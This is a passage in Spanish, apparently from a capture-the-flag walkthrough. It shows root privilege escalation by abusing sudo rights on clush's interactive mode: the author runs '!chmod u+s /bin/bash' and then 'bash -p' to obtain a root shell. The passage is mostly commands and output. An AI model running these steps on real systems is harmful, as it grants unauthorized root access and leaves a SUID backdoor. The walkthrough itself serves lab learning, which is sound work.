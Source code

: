 ```
node[12,14] (2)
---------------
Linux
clush>
```

Por lo que vamos a probar entrando en una `shell` interactiva y ejecutando los comandos con una `!` delante, tal y como pone en el ejemplo:

```shell
sudo clush -w node[11-14] -b
```

Info:

```
Enter 'quit' to leave this interactive mode
Working with nodes: node[11-14]
clush> !id
LOCAL: uid=0(root) gid=0(root) groups=0(root)
```

Vemos que funciona, por lo que haremos lo siguiente:

```shell
clush> !chmod u+s /bin/bash
```

Y ahora nos saldremos con `quit`, comprobaremos que ciertamente estan puestos los permisos `SUID` en las `bash`:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```

Por lo que vemos a funcionado, haremos lo siguiente:

```shell
bash -p
```

Y con esto ya seremos `root`, por lo que ya la habremos termiando.
